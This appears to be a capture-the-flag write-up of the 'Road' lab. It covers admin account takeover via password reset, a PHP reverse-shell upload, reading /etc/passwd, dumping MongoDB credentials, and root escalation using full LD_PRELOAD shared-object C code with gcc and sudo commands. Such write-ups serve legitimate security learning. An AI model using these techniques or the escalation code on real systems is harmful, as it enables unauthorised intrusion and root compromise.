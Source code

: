 ## Road

---

Tags: Linux, php, preload

Tools: nmap, dirb, c, gcc, mongoDB

Process:

* As usual I start with an `nmap -A <ip> > scan` which reveals ports open on 22 and 80.

* I also start a dirb subdirectory search with Web-Content/directory-list-2.3-small wordlist from seclists as well as one with dirb -w and the default wordlist.

* I notice on the website's main page, there is a link to a login page, a package tracker field/link, and a contact form.

    * I learned about a tool called `whatweb` that can help identify the tech stack being used on a site.

* I poked around the website and subdirectories from the scans including "v2" and "phpMyAdmin" and it seems that there aren't any default credentials being used and that the services being used are up to date.

* Although there is no access through default creds, an account can be made and used to access the services. This gives access to the dashboard at /v2/.

* After poking around the dashboard a little bit, a few things stick out. On the user profile page, it is possible to upload a profile picture and I'm thinking this could be a file upload vulnerability. Also, when searching for AWB/Waybill numbers, I get a screen that says something along the lines of "Due to a ton of complaints, we're working on this. Sorry" and then it redirects to the dashboard. There is also a reset profile link which is basically just a password reset.

* There is a note on the profile picture upload that says only the admin can do this right now and it gives the admin email address for contact. Because email accounts are usernames on this sight, I can reset the password of the admin using the reset password link and burpsuite, swapping out the relavent details for the admin account. It works.

* Now the profile picture upload can be used to deploy a reverse shell. By viewing the source code of the profile page, the directory of the pfp uploads is obtainable. Then by uploading a pentest monkey php shell and executing it by navigating to it in the browser, I get a reverse shell.

* I collect the user flag from the user directory in /home/.

* Then I start enumerating privesc vectors. After a couple manual checks, I upload linpeas using wget and a local http server on my attack machine. chmod +x it on the target machine and execute it.

    *Took a detour here to reformat some of my notes on shell stabilization as I was running into issues that I've had for some time and wanted to address them*

* From `cat /etc/passwd` it is found that MongoDB and MySQL are on the system.

* I access the MongoDB database by the following commands:

    * `mongo`

    * `help` ... lol

    * `show dbs`

    * `use <db name>` for the different dbs I was shown in the previous command

    * `show collections`

    * `db.<collection>.find();`

* From this I got a user:pass

* With this new user I run `sudo -l` and see this user can run /usr/bin/sky_backup_utility with NOPASSWD.

    * This binary has r/w/x privs and is owned by root.

    * The user also has env_keep+=LD_PRELOAD

* These can be leveraged to create a privesc vector

    * The a c file can be made with the following code:

        *
        ``` c
        #include <stdio.h>
        #include <stdlib.h>

            void _init(){
                unsetenv("LD_PRELOAD");
                setuid(0);
                setgid(0);
                system("/bin/sh");
            }
        ```

    * Compiled with the following command:

        * `gcc -shared -fPIC -o <name>.so <name>.c -nostartfiles`

    * Then run the command:

        * `sudo LD_PRELOAD=/Path/to/<name>.so /Path/to/binary`

            * In this case the binary is the /usr/bin/sky... binary. Also, it was necessary for me to include the full path of the .so file, not just the relative path from PWD, even though I was already in the directory.

* Root shell is obtained and flag is acquired!
